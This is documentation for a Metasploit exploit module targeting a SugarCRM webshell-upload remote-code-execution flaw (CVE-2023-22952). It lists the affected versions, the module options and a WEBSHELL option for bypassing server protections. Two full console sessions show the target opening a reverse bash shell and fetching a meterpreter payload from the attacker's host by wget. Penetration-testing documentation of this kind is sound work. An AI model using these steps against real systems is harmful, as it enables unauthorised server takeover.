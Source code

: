 ## Vulnerable Application

This module exploits a Remote Code Execution vulnerability that has been identified in the SugarCRM application.
Using a specially crafted request, custom PHP code can be uploaded hidden in a `PNG` file and injected through the EmailTemplates
because of missing input validation.
Any user privileges can exploit this vulnerability and it results in access to the underlying operating system with the same privileges
under which the web services run (typically user `www-data`).
SugarCRM 11.0 Professional, Enterprise, Ultimate, Sell and Serve versions `11.0.4` and below are affected. Fixed in release `11.0.5`
SugarCRM 12.0 Enterprise, Sell and Serve versions `12.0.1` and below are affected. Fixed in release `12.0.2`.

Installing a vulnerable test bed requires Linux OS with the vulnerable SugarCRM software loaded.
This module has been tested against a SugarCRM installation with the specifications listed below:

* SugarCRM Enterprise Edition
* Version: `11.0.4`
* Build: `300`
* Linux OS: Debian 8.6
`
## Verification Steps

1. `use exploit/linux/http/sugarcrm_webshell_cve_2023_22952`
1. `set RHOSTS <TARGET HOSTS>`
1. `set RPORT <port>`
1. `set LHOST <attacker host ip>`
1. `set LPORT <attacker host port>`
1. `set TARGET <0-Unix command or 1-Linux Dropper>`
1. `exploit`
1. You should get a `bash` shell or `meterpreter` session depending on the target and payload settings.

## Options
### WEBSHELL
You can use this option to set the filename and extension of the webshell.
This is handy if you want to test the webshell upload and execution with different file extensions (.phtml, .php7,. inc)
to bypass any security settings on the Web and PHP server.

## Scenarios

### SugarCRM 11.0.4 Enterprise bash reverse shell

```
msf6 > use exploit/linux/http/sugarcrm_webshell_cve_2023_22952
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/http/sugarcrm_webshell_cve_2023_22952) > options

Module options (exploit/linux/http/sugarcrm_webshell_cve_2023_22952):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT    80               yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine
                                       or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command


View the full module info with the info, or info -d command.

msf6 exploit(linux/http/sugarcrm_webshell_cve_2023_22952) > set rhosts 192.168.100.180
rhosts => 192.168.100.180
msf6 exploit(linux/http/sugarcrm_webshell_cve_2023_22952) > set lhost 192.168.100.254
lhost => 192.168.100.254
msf6 exploit(linux/http/sugarcrm_webshell_cve_2023_22952) > set lport 4444
lport => 4444
msf6 exploit(linux/http/sugarcrm_webshell_cve_2023_22952) > set target 0
target => 0
msf6 exploit(linux/http/sugarcrm_webshell_cve_2023_22952) > exploit

[*] Started reverse TCP handler on 192.168.100.254:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Sending authentication request.
[*] Uploading webshell and retrieving SugarCRM version.
[+] The target is vulnerable. SugarCRM version: 11.0.4 ENT
[*] Executing Unix Command for cmd/unix/reverse_bash
[+] Deleted RPXrYGLCvGjL.phar
[*] Command shell session 1 opened (127.0.0.1:4444 -> 127.0.0.1:52584) at 2023-01-19 19:14:56 +0000

whoami
www-data
exit
```

### SugarCRM 11.0.4 Enterprise meterpreter session

```
msf6 > use exploit/linux/http/sugarcrm_webshell_cve_2023_22952
[*] Using configured payload linux/x64/meterpreter_reverse_tcp
msf6 exploit(linux/http/sugarcrm_webshell_cve_2023_22952) > options

Module options (exploit/linux/http/sugarcrm_webshell_cve_2023_22952):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT    80               yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine
                                       or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (linux/x64/meterpreter_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper


View the full module info with the info, or info -d command.

msf6 exploit(linux/http/sugarcrm_webshell_cve_2023_22952) > set rhosts 192.168.100.180
rhosts => 192.168.100.180
msf6 exploit(linux/http/sugarcrm_webshell_cve_2023_22952) > set lhost 192.168.100.254
lhost => 192.168.100.254
msf6 exploit(linux/http/sugarcrm_webshell_cve_2023_22952) > set lport 4444
lport => 4444
msf6 exploit(linux/http/sugarcrm_webshell_cve_2023_22952) > set target 1
target => 1
msf6 exploit(linux/http/sugarcrm_webshell_cve_2023_22952) > exploit

[*] Started reverse TCP handler on 192.168.100.254:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Sending authentication request.
[*] Uploading webshell and retrieving SugarCRM version.
[+] The target is vulnerable. SugarCRM version: 11.0.4 ENT
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Using URL: http://192.168.100.254:8080/aLYDt2
[*] Client 127.0.0.1 (Wget/1.16 (linux-gnu)) requested /aLYDt2
[*] Sending payload to 127.0.0.1 (Wget/1.16 (linux-gnu))
[*] Sending stage (3045348 bytes) to 127.0.0.1
[+] Deleted ZxGTSVGsOUZs.phtml
[*] Meterpreter session 2 opened (127.0.0.1:4444 -> 127.0.0.1:43076) at 2023-01-19 19:16:07 +0000
[*] Command Stager progress - 100.00% done (121/121 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer     : sugarcrm
OS           : Debian 8.6 (Linux 2.6.32)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: www-data
meterpreter > exit
```

## Limitations
No limitations identified.
